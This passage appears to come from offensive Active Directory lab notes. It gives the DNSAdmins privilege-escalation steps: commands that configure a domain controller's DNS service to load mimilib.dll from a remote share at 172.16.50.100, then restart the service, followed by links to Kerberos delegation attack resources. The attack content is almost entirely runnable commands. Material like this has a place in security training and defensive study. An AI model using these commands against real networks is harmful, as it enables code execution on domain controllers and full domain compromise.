 2. **From the privileges of DNSAdmins group member**
```powershell
#configure DLL using dnscmd.exe (Needs RSAT DNS).
dnscmd.exe dcorp-dc /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll
#Using DNSServer module (needs RSAT DNS)
$dnsettings= Get-DnsServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll="\\172.16.50.100\dll\mimilib.dll"
Set-DnsServerSettings -InputObject $dnsettings -ComputerName dcorp-dc -Verbose
```
3. Restart the DNS service (assuming that the DNSAdmins group has the permission to do so).
```powershell
sc.exe \\dcorp-dc stop dns
sc.exe \\dcrop-dc start dns
```
> By default, the mimilib.dll logs all DNS queries to C:\\Windows\\System32\\kiwidns.log
---
# Further reading
- Official Docs ->  [Group managed service accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/configure-kerberos-delegation-group-managed-service-accounts)
- Attacks explained (linux) -> [blog.redxorblue](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
- Attacks explained -> [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
- Cheatsheet -> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-unconstrained-delegation)
- gMSA -> [XCT-notes](https://notes.vulndev.io/notes/misc/labs/group-managed-service-accounts-gmsa)